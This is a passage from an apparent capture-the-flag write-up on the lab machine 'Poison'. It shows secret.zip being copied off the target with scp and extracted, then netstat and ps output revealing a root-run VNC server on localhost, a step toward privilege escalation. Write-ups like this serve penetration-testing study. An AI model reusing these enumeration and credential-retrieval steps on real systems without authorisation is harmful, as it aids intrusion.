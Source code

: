 Extracting `secret.zip` requires a password, confirming it is encrypted.:

```
unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

We download the file to our local machine and attempt to extract it using the known password. The extraction is successful.

```
scp charix@10.10.10.84:secret.zip .
unzip secret.zip

file secret       
secret: Non-ISO extended-ASCII text, with no line terminators
                                                                                         
hexdump -C secret                                          
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
00000008
```

This file might be useless contrary to its filename.

## VNC

### Server Discovery
Running `netstat` revealed a VNC server listening on `127.0.0.1:5901`:
> **_NOTE:_** Virtual Network Computing (VNC) is a cross-platform screen sharing system that was created to remotely control another computer. 

```
netstat -an -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.10.10.84.22         10.10.14.17.40174      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Further investigation with `ps` confirmed the VNC server was running as root:

```
charix@Poison:~ % ps -auwwx | grep vnc
root    529   0.0  0.7  23620 6636 v0- I    Thu02      0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```
